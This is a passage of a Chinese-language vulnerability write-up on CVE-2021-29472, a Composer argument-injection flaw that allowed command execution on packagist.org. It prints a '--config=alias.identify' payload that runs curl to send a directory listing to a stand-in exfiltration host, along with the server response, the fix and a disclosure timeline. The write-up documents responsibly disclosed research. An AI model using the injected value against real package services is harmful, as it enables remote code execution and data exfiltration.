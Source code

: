 我们将identify命令别名为我们构造的shell命令，`hg`将会执行它。得到的payload为：

```
--config=alias.identify=!curl http://exfiltration-host.tld --data “$(ls -alh)”
```

当我们使用该url向packagist.org提交了一个新的package后，我们从AWS主机收到了一下HTTP请求正文：

```
total 120K 
drwxrwxr-x  9 composer composer 4.0K Apr 21 23:19 . 
dr-xr-xr-x 15 composer composer 4.0K Apr 20 07:38 .. 
-r--r--r--  1 composer composer 8.7K Apr 20 07:38 .htaccess 
-r--r--r--  1 composer composer 1.3K Apr 20 07:38 app.php 
-r--r--r--  1 composer composer 8.2K Apr 20 07:38 apple-touch-icon-precomposed.png 
-r--r--r--  1 composer composer 8.2K Apr 20 07:38 apple-touch-icon.png 
dr-xr-xr-x  3 composer composer 4.0K Jan 13 14:35 bundles 
dr-xr-xr-x  4 composer composer 4.0K Apr 20 07:38 css [...] 
lrwxrwxrwx  1 composer composer   15 Aug 13  2020 packages.json -&gt; p/packages.json 
lrwxrwxrwx  1 composer composer   18 Aug 13  2020 packages.json.gz -&gt; p/packages.json.gz 
-r--r--r--  1 composer composer  106 Apr 20 07:38 robots.txt 
-r--r--r--  1 composer composer  798 Apr 20 07:38 search.osd 
dr-xr-xr-x  2 composer composer 4.0K Apr 20 07:38 static-error 
-r--r--r--  1 composer composer 8.8K Apr 20 07:38 touch-icon-192x192.png
```

这说明我们确实在Packagist主机上执行了命令；我们向packagist.org报告了此漏洞，并且并没有尝试提升权限等其他危险操作。



## 修复

Packagist.org的维护人员在12小时内部署了一个热补丁，有效地防止该漏洞。[Composer修复](https://github.com/composer/composer/commit/332c46af8bebdead80a2601350dff7af0ac1f490)在4月27号发布，新版本release 1.10.22 / 2.0.13 也紧跟其后被发布。目前pacakgist.org中使用的Composer是最新的修复版本。



## 时间线

|日期|行动
|------
|2021-04-22|首次联系安全人员（packagist.org）
|2021-04-22|修补程序部署在packagist.org中
|2021-04-26|GitHub分配的CVE-2021-29472
|2021-04-27|发布了Composer 1.10.22和2.0.13



## 概括

在这篇文章中，我们展示了Composer中看似无害的bug是如何对Packagist.org等服务造成影响的。安全研究人员，如Max Justicz，经常能发现程序包管理器和相关服务中的安全问题，这些问题造成的影响可能会很大。因此，相关公司应该花费更多精力在其供应链的审计工具上。



## 参考

1 . [SolarWinds旗下软件被用于供应链攻击事件分析](https://www.secrss.com/articles/27889)
